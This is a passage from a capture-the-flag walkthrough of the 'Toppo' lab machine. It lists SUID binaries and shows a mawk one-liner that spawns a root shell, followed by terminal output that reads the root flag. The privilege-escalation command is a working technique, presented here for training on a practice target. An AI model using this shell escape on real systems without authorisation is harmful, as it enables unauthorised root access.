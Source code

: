 - /usr/bin/python2.7
- /usr/bin/mawk
	- What is this? Mawk is an interpreter for the AWK programming language, which is used for text processing and data manipulation. It is known for being fast and efficient compared to other AWK interpreters.


### Method 1 - mawk

```bash
# mawk 'BEGIN {system("/bin/sh")}'
ted@Toppo:~$ mawk 'BEGIN {system("/bin/sh")}'                                                                  
# ls                                                                                                           
# cat root.txt                                                                                                 
cat: root.txt: No such file or directory                                                                       
# cat /root/flag.txt                                                                                           
_________                                                                                                      
|  _   _  |                                                                                                    
|_/ | | \_|.--.   _ .--.   _ .--.    .--.                                                                      
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \                                                                    
   _| |_ | \__. | | \__/ | | \__/ || \__. | 
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                 [__|     [__|              




Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}

```




![Toppo](Toppo_flag.png)

